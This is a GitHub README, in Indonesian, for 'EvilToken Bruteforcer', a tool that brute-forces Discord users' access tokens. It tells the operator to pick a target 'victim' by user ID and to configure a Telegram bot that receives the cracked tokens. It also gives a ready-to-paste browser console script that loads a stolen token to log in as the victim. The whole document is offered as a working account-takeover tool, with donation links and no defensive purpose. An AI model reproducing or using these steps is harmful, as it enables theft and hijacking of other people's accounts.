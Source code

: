 # EvilToken Bruteforcer.
Script ini digunakan untuk membruteforce atau menebak - nebak token access login untuk user Discord.
Gw cuma improve code, gw terima kasih ke @NAOYY karena sudah publikasikan source code. Cross Platform, sudah diuji coba via sistem Macintosh OS dan Microsoft Windows. Kurang tau kalo di Termux bisa ato kagak.

## Screenshots Program.
![Screenshot MacOS](https://i.ibb.co/zxSLDDP/photo-2021-02-03-12-36-19.jpg)
![Screenshot Windows](https://i.ibb.co/rpzQztd/Entod-Token-SS.jpg)
## Installation

Dibutuhkan Python versi 3, dan tentunya [pip](https://pip.pypa.io/en/stable/) untuk install module.

```python
pip install signal
pip install discord
pip install colorama
```

## Cara Penggunaan

Cukup mudah, tinggal diedit saja source code ke info pribadi kalian sesuka saja. Paling tinggal di edit Bot Token sama User ID masing masing saja.

```python
# Mengirim pesan ke Bot Telegram.
def sendteleg(botmsg):
   bot_token = 'BotTokenLo'
   bot_chatID = 'UserIDLo'
```

Pastikan juga sudah mengubah setting Discord ke Developer Mode untuk mendapatkan User ID Discord Victim. Caranya tinggal ke Settings > Appearance > Developer Mode. Kalo semisal sudah di aktifkan, tinggal diklik kanan victimnya dan dipaling bawah ada tulisan "Copy ID". Masukkan saja ke Dalam Program.

![bro](https://i.ibb.co/tz4zYTg/image.png)

Sukses bruteforcingnya? Tinggal login pakai token yang sukses dibruteforce saja. Cara untuk login via token juga sebenernya lumayan gampang cara loginnya. Tinggal butuh knowledge dikit dikit tentang Browser.

1. Buka Incognito Mode di Google Chrome.
2. Pergi ke https://discord.com/app.
3. Buka Developer Tools dan pergi ke Console.
4. Copy Paste Kode Berikut.

```js
(function() {
    window.t = "GANTI INI JADI TOKEN VICTIM"
    window.localStorage = document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage;
    window.setInterval(() => window.localStorage.token = `"${window.t}"`);
    window.location.reload();
})();
```

5. Enter dan boom, logged in.

## Contributing
Bebas dah mau lu apain, tapi asalkan lu gak jual belikan nih program sama ngaku ngaku ni buatan lo. Awas aja dah kalo sampe ketahuan, asu emang skidder bangke. Kalo semisal ada saran, bisa contact ke gw : @FallenV4 via Telegram.

Please donate ke gw, gw gak ada penghasilan buat program ginian asu.

[PayPal](https://paypal.me/akmalpv4) |
[Saweria](https://saweria.co/fallenv4) | [YouTube](https://www.youtube.com/channel/UCPlVO-tSnP8TCMDKLx49Rwg) | [Group Telegram](https://t.me/fallenkuy)
## Kenapa gw buat ini?
Ada alasan tertentu, pastinya :).
